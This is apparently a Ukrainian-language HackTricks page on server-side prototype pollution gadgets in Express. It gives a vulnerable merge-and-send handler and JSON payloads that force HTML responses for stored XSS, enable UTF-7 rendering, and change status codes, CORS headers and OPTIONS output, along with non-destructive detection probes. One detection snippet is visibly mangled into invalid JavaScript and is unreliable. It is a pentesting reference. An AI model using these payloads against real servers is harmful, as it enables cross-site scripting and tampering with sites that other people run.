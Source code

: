 # Gadgets для забруднення прототипу Express

{{#include ../../../banners/hacktricks-training.md}}

## Обслуговування XSS-відповідей

**Для отримання додаткової інформації** [**перегляньте оригінальне дослідження**](https://portswigger.net/research/server-side-prototype-pollution)

### Змінити тип вмісту JSON на HTML

В додатку Express, що використовує **JSON content type response** і відображає JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
У цих випадках XSS зазвичай не можливий з типом вмісту JSON. Однак, з забрудненням прототипу ми можемо **заплутати Express, щоб він повертав HTML-відповідь.** Ця вразливість залежить від використання додатком **`res.send(obj)`** та використання парсера тіла з типом вмісту application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Шляхом **забруднення** властивостей **`body`** та **`_body`** можливо змусити **Express віддавати HTML тип контенту** та відображати властивість `_body`, що призводить до збереженого XSS.

### Відображення UTF7

Можливо змусити express **відображати UTF-7 контент за допомогою**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Безпечні техніки сканування

### JSON пробіли

Наступний PP додасть атрибутам всередині JSON додатковий пробіл, що не порушить функціональність:
```json
{ "__proto__": { "json spaces": " " } }
```
Тоді відображений JSON виглядатиме так:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Наступний PP гаджет змусить сервер надіслати HTTP заголовок: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Вимагає, щоб **модуль CORS був встановлений**

### **Метод OPTIONS**

З наступним payload можливо **сховати метод з відповіді OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Статус**

Можливо змінити **код статусу, що повертається**, використовуючи наступний PP payload:
```json
{ "__proto__": { "status": 510 } }
```
### Помилка

Коли ви призначаєте прототипу примітив, наприклад, рядок, це призводить до **операції без дії, оскільки прототип повинен бути об'єктом**. Якщо ви намагаєтеся призначити об'єкт прототипу самому `Object.prototype`, це **викине виключення**. Ми можемо використовувати ці дві поведінки, щоб **виявити, чи була успішною забрудненість прототипу**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Відображене значення

Коли додаток включає об'єкт у свою відповідь, створення атрибута з **незвичайною назвою поряд з `__proto__`** може бути корисним. Зокрема, якщо **лише незвичайний атрибут повертається** у відповіді, це може вказувати на вразливість додатка:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Більше того, у сценаріях, де використовується бібліотека Lodash, встановлення властивості як через забруднення прототипу (PP), так і безпосередньо в об'єкті пропонує ще один діагностичний підхід. Якщо така властивість відсутня у відповіді, це вказує на те, що Lodash перевіряє наявність властивості в цільовому об'єкті перед злиттям:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Різне

### Дозволити крапки

Є опція в Express, яка дозволяє вам **створювати об'єкти з параметрів рядка запиту**.\
Ви безумовно можете використовувати це в **ланцюгу** для експлуатації **вразливості забруднення прототипу**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` створює об'єкт у Node.**

## Посилання

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
